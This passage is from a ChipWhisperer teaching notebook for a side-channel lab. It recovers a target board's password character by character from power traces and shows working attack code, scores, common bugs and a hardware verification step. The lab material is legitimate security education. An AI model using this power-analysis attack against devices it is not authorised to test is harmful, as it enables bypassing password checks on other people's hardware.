Here any threshold between about **10** (just above the wrong ones) and **285** (just below the right one) works - the worksheet's 25 is comfortably inside that range. On real hardware, with more noise, the wrong scores are larger and the safe range is different, which is why the full attack below uses **"biggest"**: it needs no tuning.

## 5. Running the full attack

### Task 8 - recover the whole password

**The idea.** One character at a time. Once we know the password starts with `guessed_pw`, we find the next character exactly as in Task 7 - **but with everything we know so far put in front**:

* the candidate is `guessed_pw + c` (not just `c`), so the target gets past the characters we already have right and *reaches* the next comparison;
* the reference is `guessed_pw + "\x01"`, so it is wrong at **the same position** as the candidates.

The worksheet's pseudo-code:

```text
guessed_pw = ""

do a loop 5 times (max password size):

    ref_trace = capture power trace(guessed_pw + "\x01\n")

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = capture power trace(guessed_pw + CHARACTER + newline)
        diff = SUM(ABS(trace - ref_trace))

        pick the CHARACTER with the biggest diff and add it to guessed_pw
```

**Solution** (the worksheet's answer, plus one line that keeps every round's scores so we can study them afterwards):

In [18]:
guessed_pw = ""
scoreboard = []                  # one {character: score} table per round - we study these in section 6

for _ in range(0, 5):            # the password has 5 characters
    biggest_diff = 0
    biggest_char = '\x01'
    ref_trace = cap_pass_trace(guessed_pw + "\x01\n")
    round_scores = {}

    for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
        trace = cap_pass_trace(guessed_pw + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        round_scores[c] = float(diff)

        if diff > biggest_diff:
            biggest_diff = diff
            biggest_char = c

    guessed_pw += biggest_char
    scoreboard.append(round_scores)
    print(guessed_pw)

h


h0


h0p


h0px


h0px3


**What we see.** The password appears one character at a time:

```text
h
h0
h0p
h0px
h0px3
```

(in `'SIMULATED'` mode, where the hidden password is `h0px3`). It takes a few tens of seconds: 185 captures, each a fraction of a second.

**Line by line**

* `guessed_pw = ""` - the part of the password we have recovered so far. It starts empty.
* `for _ in range(0, 5)` - five rounds, one per password character. `_` is the name Python programmers use for "a loop variable I don't need".
* `biggest_diff = 0`, `biggest_char = '\x01'` - the best score so far in this round and who got it. `'\x01'` is just a placeholder that is overwritten as soon as any real character scores above 0.
* `ref_trace = cap_pass_trace(guessed_pw + "\x01\n")` - **the reference for this round**: everything we know, then a wrong character. It is captured at the *start of every round* because it changes as `guessed_pw` grows (see the troubleshooting section for what happens if it doesn't).
* `trace = cap_pass_trace(guessed_pw + c + "\n")` - the candidate: everything we know, then the character `c` we are testing.
* `diff = np.sum(np.abs(trace - ref_trace))` - the Task 6 score.
* `if diff > biggest_diff:` - remember the best candidate so far.
* `guessed_pw += biggest_char` - the winner of the round becomes the next character of the password.
* `round_scores` / `scoreboard` - the only addition to the worksheet code: we store every score so we can look at them below.

**Check the answer.** In simulated mode we know the answer, so we can assert it. (On hardware the password is whatever is compiled into the firmware - see section 9 for how to check it.)

In [19]:
if VERSION == 'SIMULATED':
    assert guessed_pw == 'h0px3', "Failed to break password"
    print("recovered {!r} - correct!".format(guessed_pw))
else:
    print("recovered {!r}  (on hardware, confirm it with section 9)".format(guessed_pw))

recovered 'h0px3' - correct!


Congratulations - you have recovered a password **without ever being told it**, only by watching how much work the chip did.

## 6. Why it works - and what it costs

Let's use the scores we stored to answer the questions that make this more than a trick.

### How clear is the signal in every round?



round | winner | winner's score | best wrong score | winner is this many times bigger
    1 |    'h' |          300.6 |              8.9 | 34x
    2 |    '0' |          298.1 |              9.4 | 32x
    3 |    'p' |          290.8 |              8.8 | 33x
    4 |    'x' |          287.6 |              9.0 | 32x
    5 |    '3' |          312.4 |              9.1 | 34x


In [20]:
import matplotlib.colors as mcolors

grid = np.array([[scoreboard[r][c] for c in CHARSET] for r in range(len(scoreboard))])
grid = np.clip(grid, 1.0, None)       # a score of exactly 0 (two identical recordings) cannot be drawn on a log scale

fig, ax = plt.subplots(figsize=(11, 3.2))
im = ax.imshow(grid, aspect="auto", cmap="viridis", norm=mcolors.LogNorm(vmin=1.0, vmax=grid.max()))
ax.grid(False)
ax.set_xticks(range(len(CHARSET))); ax.set_xticklabels(list(CHARSET), fontsize=8)
ax.set_yticks(range(len(scoreboard))); ax.set_yticklabels(["round {}: {!r} + ?".format(r + 1, guessed_pw[:r]) for r in range(len(scoreboard))])
for r in range(len(scoreboard)):
    c = guessed_pw[r]
    ax.text(CHARSET.index(c), r, c, ha="center", va="center", color="white", fontsize=11, fontweight="bold")
ax.set_xlabel("character tried"); ax.set_title("Scoreboard: score of every character in every round (brighter = bigger, log colour scale)")
fig.colorbar(im, ax=ax, label="score"); plt.tight_layout(); plt.show()

print("round | winner | winner's score | best wrong score | winner is this many times bigger")
for r, sc in enumerate(scoreboard):
    win = guessed_pw[r]
    best_wrong = max(v for c, v in sc.items() if c != win)
    print("{:5d} | {!r:>6} | {:14.1f} | {:16.1f} | {:.0f}x".format(r + 1, win, sc[win], best_wrong, sc[win] / best_wrong))

**What we see.** In every round exactly **one** character lights up (we wrote the winner on it) and the other 35 stay dark. The winner scores about **290 - 310**, the best wrong character about **9**: the right character is over **thirty times** larger in every round. That is why there is no need for clever statistics - a plain "sum of absolute differences" is enough.

> **A very dark cell** (a score close to 0) is not a bug. In `'SIMULATED'` mode each guess gets a random one of 100 recordings, so now and then a candidate and the reference happen to get the *very same* recording and their difference is exactly zero. A real chip would never produce an exact zero - there is always some noise.

### Where does the difference start? - and why the window matters

Each round the split between a right and a wrong guess happens **one comparison later**. Let's measure that, using a pair of traces for each position (the right prefix against the same prefix with a wrong last character, averaged over a few captures to calm the noise):

position | traces split at sample | later than the previous position by
       1 |                    433 | 
       2 |                    473 | 40
       3 |                    513 | 40
       4 |                    553 | 40
       5 |                    593 | 40




In [21]:
def first_divergence(good, bad, threshold=0.05):
    '''The first sample where the two traces differ by more than `threshold`.'''
    idx = np.nonzero(np.abs(np.asarray(good) - np.asarray(bad)) > threshold)[0]
    return int(idx[0]) if len(idx) else None


def averaged(guess, n=8):
    return np.mean([cap_pass_trace(guess + "\n") for _ in range(n)], axis=0)


splits = []
for k in range(len(guessed_pw)):
    right = averaged(guessed_pw[:k + 1])             # the first k+1 characters, all right
    wrong = averaged(guessed_pw[:k] + "\x01")        # the first k right, then a wrong one
    splits.append(first_divergence(right, wrong))

print("position | traces split at sample | later than the previous position by")
for k, s in enumerate(splits):
    print("{:8d} | {:22d} | {}".format(k + 1, s, "" if k == 0 else s - splits[k - 1]))

fig, ax = plt.subplots(figsize=(7, 3.2))
ax.plot(range(1, len(splits) + 1), splits, "o-"); ax.set_xticks(range(1, len(splits) + 1))
ax.set_xlabel("position of the character (1 = first)"); ax.set_ylabel("split sample")
ax.set_title("Each correct character pushes the split about 40 samples later"); plt.tight_layout(); plt.show()

**What we see.** The split moves from about sample **433** (first character) to **593** (fifth), in steps of **40 samples**. That is the time the loop spends on *one more comparison*. This is the **leak** in numbers: *the position of the split tells you how many characters were right.*

**Why it matters - the window.** In the full attack we add up the difference over *all* 3000 samples, so every position's split is included. If you only add up the first 500 samples, the split of the **third** character (about sample 513) is *outside the window*: the right and wrong candidates look identical inside it, every candidate scores about the same, and the attack picks one more or less at random. We try that in section 8.

### What does the attack cost?

In [22]:
rounds, per_round = len(scoreboard), len(CHARSET) + 1          # 36 candidates + 1 reference per round
captures = rounds * per_round
brute_force = len(CHARSET) ** rounds

print("power attack : {} rounds x ({} candidates + 1 reference) = {} captures".format(rounds, len(CHARSET), captures))
print("brute force  : {} possible characters ** {} positions = {:,} guesses (worst case)".format(len(CHARSET), rounds, brute_force))
print("the power attack needs about {:,.0f} times fewer attempts".format(brute_force / captures))

power attack : 5 rounds x (36 candidates + 1 reference) = 185 captures
brute force  : 36 possible characters ** 5 positions = 60,466,176 guesses (worst case)
the power attack needs about 326,844 times fewer attempts


**What we see.** **185** captures instead of up to **60,466,176** guesses. The reason is the one-character-at-a-time structure: instead of multiplying the possibilities (36 x 36 x 36 x 36 x 36) we **add** them (5 x 36), because after each round we *know* that character is right. Brute force has no way to know that - it only learns "wrong" at the very end. (A real device could also **lock out** after a few wrong guesses, which stops brute force but *not* this attack if the attacker can watch the power during every attempt.)

## 7. Make it reusable - one function that does it all

The attack is short enough to wrap in a single function. This version has two **settings** that we will experiment with in the next section: the **window** (which samples are added up) and the **length** of the password.

In [23]:
def crack_password(length=5, start=0, end=3000, verbose=True):
    '''Recover a `length`-character password from its power traces.

    start, end : only the samples start..end of each trace are compared (the "window")
    '''
    guessed = ""
    for _ in range(length):
        ref = cap_pass_trace(guessed + "\x01\n")[start:end]                  # wrong at the position we are attacking
        scores = {c: float(np.sum(np.abs(cap_pass_trace(guessed + c + "\n")[start:end] - ref))) for c in CHARSET}
        guessed += max(scores, key=scores.get)                               # the biggest score wins the round
        if verbose:
            print(" ", guessed)
    return guessed


print("recovering the password with the default window (all 3000 samples):")
result = crack_password()
print("result:", repr(result))

recovering the password with the default window (all 3000 samples):

  h


  h0


  h0p


  h0px


  h0px3
result: 'h0px3'


**Line by line** - it is exactly Task 8, with the three changes that make it reusable: the loop count is `length`, the comparison only looks at `[start:end]`, and the round's answer is picked with `max(scores, key=scores.get)` (the "biggest score" rule from Task 7).

## 8. What can go wrong - the classic bugs, run for real

Everyone writing this attack for the first time makes one of these mistakes. Here they are, **run on purpose**, with the real output, so you can recognise them.

> **The exact wrong characters you get will differ from run to run** - the simulator hands back a random one of 100 recorded traces per guess, and a broken attack is picking among near-equal scores. What matters is *the pattern*.

### Bug 1 - the candidate does not include what we already know

The worksheet's "Always get 'h'" troubleshooting entry: the candidate is `c + "\n"` instead of `guessed_pw + c + "\n"`.

In [24]:
# BUGGY - for study only
pw = ""
for _ in range(5):
    biggest_diff, biggest_char = 0, '?'
    ref_trace = cap_pass_trace(pw + "\x01\n")
    for c in CHARSET:
        trace = cap_pass_trace(c + "\n")                     # BUG: should be  pw + c + "\n"
        diff = np.sum(np.abs(trace - ref_trace))
        if diff > biggest_diff:
            biggest_diff, biggest_char = diff, c
    pw += biggest_char
    print(pw)
print("\nthe real password starts with 'h0' - this attack recovered {!r}".format(pw))

h


hz


hzb


hzbp


hzbpf

the real password starts with 'h0' - this attack recovered 'hzbpf'


**What we see.** Round 1 is fine (there is nothing to put in front yet), so the attack finds `h`. From round 2 the result is **nonsense** - the later characters make no sense. (The worksheet also describes a variant where the answer just keeps repeating `h`; the root cause is the same.)

**Why.** In round 2 the reference is `h` + wrong-character, but the candidates are single characters that never get past their first comparison. We are comparing apples with oranges: every candidate differs from the reference for reasons that have nothing to do with the second character. There is nothing for the target to leak about position 2 if we never send it a first character that gets us *to* position 2.

**Fix.** The candidate must be `guessed_pw + c`: *everything we know, then the character we are testing.*

### Bug 2 - the reference is never updated

The worksheet's "Always get 'a'" entry: the reference is captured once, before the loop, and never includes the characters found so far.

In [25]:
# BUGGY - for study only
pw = ""
ref_trace = cap_pass_trace("\x01\n")                         # BUG: the reference must be re-captured each round
for _ in range(5):
    biggest_diff, biggest_char = 0, '?'
    for c in CHARSET:
        trace = cap_pass_trace(pw + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        if diff > biggest_diff:
            biggest_diff, biggest_char = diff, c
    pw += biggest_char
    print(pw)
print("\nthe real password is 'h0px3' (simulated) - this attack recovered {!r}".format(pw))

h


h0


h08


h08a


h08aa

the real password is 'h0px3' (simulated) - this attack recovered 'h08aa'


**What we see.** The first character is right, and then the answer **derails** - after one or two lucky characters it stops matching the real password. (On real hardware the worksheet describes it as always picking `a`, the first character in the list.)

**Why.** In round 2 every candidate is `h` + something. All of them get one comparison **further** than the reference `\x01` does (the reference fails at the first comparison). So *every* candidate differs from the reference by a large amount - roughly the size of the real signal - and the one extra comparison that tells the right character from the wrong ones is now a small ripple on top of a big, shared difference. The reference has to be **wrong at the same position as the candidates**: `guessed_pw + "\x01"`.

**Fix.** Capture the reference **inside** the outer loop, with `guessed_pw` in front.

### Bug 3 - the comparison window is too short

The two bugs above are code mistakes. This one is a *setting* mistake: we saw in section 6 that the split moves 40 samples later per character. Add up only the first 500 samples and the later characters become invisible:

In [26]:
print("window = samples 0..500:")
too_short = crack_password(end=500)
print("\nwindow = samples 0..700:")
long_enough = crack_password(end=700)
print("\nthe real password is 'h0px3' (simulated)")
print("  window 0..500  recovered {!r}".format(too_short))
print("  window 0..700  recovered {!r}".format(long_enough))

window = samples 0..500:


  h


  h0


  h0a


  h0ac


  h0acg

window = samples 0..700:


  h


  h0


  h0p


  h0px


  h0px3

the real password is 'h0px3' (simulated)
  window 0..500  recovered 'h0acg'
  window 0..700  recovered 'h0px3'


**What we see.** With the window ending at **500** the attack gets the first two characters (their splits, at 433 and 473, are inside the window) and then **fails**: the third character's split, at about 513, is outside. With the window ending at **700** the splits for characters 1 to 5 (433, 473, 513, 553, 593) are all inside and the attack works.

**Lesson.** The window has to extend **past the split of the last character you want**, and that moves later with the password's length. When in doubt, use the whole trace (as the full attack does) - there is no penalty except a little arithmetic.

### Not a bug, but worth knowing - the threshold

Any threshold between the biggest *wrong* score and the smallest *right* score works. With the scoreboard from section 5 we can see that range exactly:

In [27]:
best_wrong_overall = max(v for r, sc in enumerate(scoreboard) for c, v in sc.items() if c != guessed_pw[r])
smallest_right = min(scoreboard[r][guessed_pw[r]] for r in range(len(scoreboard)))
print("biggest wrong score in any round : {:.1f}".format(best_wrong_overall))
print("smallest right score in any round: {:.1f}".format(smallest_right))
print("=> any threshold between about {:.0f} and {:.0f} recovers the whole password.".format(best_wrong_overall, smallest_right))
print("   The worksheet's 25.0 is well inside that range.")

biggest wrong score in any round : 9.4
smallest right score in any round: 287.6
=> any threshold between about 9 and 288 recovers the whole password.
   The worksheet's 25.0 is well inside that range.


**What we see.** A wide safe range - one reason the "biggest score" method is so comfortable here. On real hardware, with more noise, the range is narrower; if it ever closes completely (the biggest wrong score overtakes the smallest right one) a single capture per guess is no longer enough and you must **average several captures per guess** - the *Lab 2_1B Explorer* notebook explores exactly that.

## 9. On real hardware

Everything above ran unchanged on recorded data. If you have the Husky kit, the same notebook runs against your own chip: set `VERSION = 'HARDWARE'` at the top, make sure the kit is wired as in Lab 0 (and the **SAM4S** target board - not the look-alike iCE40 board - is the one on the CW313), and choose **Kernel > Restart & Run All**. The setup notebook builds and flashes the firmware for you.

**Three things are different on hardware:**

1. **The password is whatever is compiled into the firmware.** The lab's stock firmware has `char correct_passwd[] = "h0px3";`. If you (or anyone) changed it - for example with the *Firmware Change and Flash Walkthrough* notebook - the attack recovers *that* password, and the worksheet's "starts with `h`" hint and the `assert ... == 'h0px3'` above no longer apply. That is why the check in section 5 only asserts in `'SIMULATED'` mode.
2. **The traces are noisier**, so the scores of wrong characters are larger and the safe threshold range is narrower (see "Not a bug" above).
3. **The target can tell you whether you were right.** The recorded data cannot answer that, but a real target prints `Access granted, Welcome!` or `PASSWORD FAIL` after every guess. We can use that as an **independent check** of the recovered password:

In [28]:
def try_password(guess):
    '''HARDWARE ONLY: send `guess` to the real target and report whether it unlocks.'''
    if VERSION != 'HARDWARE':
        raise RuntimeError("try_password() needs the ChipWhisperer connected - set VERSION = 'HARDWARE' and re-run.")
    cap_pass_trace(guess + "\n")                  # resets the target, sends the guess, records the power
    time.sleep(0.05)
    reply = target.read(timeout=100)              # read the target's verdict from the serial line
    while target.in_waiting():
        reply += target.read(timeout=50)
    granted = ("Welcome" in reply) or ("Access granted" in reply)
    print("guess = {!r:10} -> {}   (device said: {})".format(guess, "ACCESS GRANTED" if granted else "password fail", " | ".join(reply.split())))
    return granted


if VERSION == 'HARDWARE':
    assert try_password(guessed_pw), "the recovered password did not unlock the target"
    print("confirmed by the target itself: {!r}".format(guessed_pw))
else:
    print("Skipped - this check needs real hardware (VERSION = 'HARDWARE').")

Skipped - this check needs real hardware (VERSION = 'HARDWARE').


**Line by line**

* `cap_pass_trace(guess + "\n")` - on hardware this **resets the target, sends the guess and records the power**. We ignore the returned trace here; we only need the side effect that the target has now judged the guess.
* `target.read(timeout=100)` - read the text the target printed back over the serial line. `target.in_waiting()` says how many more bytes are waiting.
* `"Welcome" in reply` - the success banner is `Access granted, Welcome!`; a wrong guess prints `PASSWORD FAIL`.

In `'SIMULATED'` mode there is no real target to ask, so the cell just prints that it was skipped.

## 10. The whole solution on one page

If you only keep one thing, keep this. It is the complete attack, and every line is explained above.

```python
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"

def crack_password(length=5, start=0, end=3000):
    guessed = ""
    for _ in range(length):                                                   # one round per character
        ref = cap_pass_trace(guessed + "\x01\n")[start:end]                   # a guess that is wrong at THIS position
        scores = {c: np.sum(np.abs(cap_pass_trace(guessed + c + "\n")[start:end] - ref))   # how different is each candidate?
                  for c in CHARSET}
        guessed += max(scores, key=scores.get)                               # the most different one is the right one
    return guessed
```

**The five ideas behind it**

1. **The target leaks.** The password check stops at the first wrong character, so the work it does - and its power - depends on how many leading characters were right.
2. **Subtract a reference.** A trace of a *wrong* guess, taken at the same position, cancels everything the traces share and leaves only the effect of the right/wrong character.
3. **Make it a number.** `np.sum(np.abs(difference))` - the *absolute* value, so that positive and negative swings cannot cancel.
4. **One character at a time.** Each round keeps what we already know in front of the candidate, so the target reaches the next comparison. This turns 36^5 guesses into 5 x 36.
5. **The right character stands out by a mile** (about 300 against about 9 here), so the biggest score wins - no threshold to tune.

**Where next?** Open **`Lab 2_1B - Password Bypass Explorer.ipynb`** to change the window, the scoring method, the noise and the amount of averaging and watch the attack break and recover - and to see what a **random-delay** defence does to it. Then on to the next labs, where the leak is no longer *how long* but *how much power* - the *value* of the data being processed - which is how AES keys are recovered.

In [29]:
if VERSION == 'SIMULATED':
    assert guessed_pw == 'h0px3' and result == 'h0px3', "Failed to break password"
    print("final check passed: the attack recovered 'h0px3' twice (section 5 and section 7).")
else:
    print("hardware run: recovered {!r}".format(guessed_pw))

final check passed: the attack recovered 'h0px3' twice (section 5 and section 7).


---
<small>NO-FUN DISCLAIMER: This material is Copyright (C) NewAE Technology Inc., 2015-2020. ChipWhisperer is a trademark of NewAE Technology Inc., claimed in all jurisdictions, and registered in at least the United States of America, European Union, and Peoples Republic of China.

Tutorials derived from our open-source work must be released under the associated open-source license, and notice of the source must be *clearly displayed*. Only original copyright holders may license or authorize other distribution - while NewAE Technology Inc. holds the copyright for many tutorials, the github repository includes community contributions which we cannot license under special terms and **must** be maintained as an open-source release. Please contact us for special permissions (where possible).

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.</small>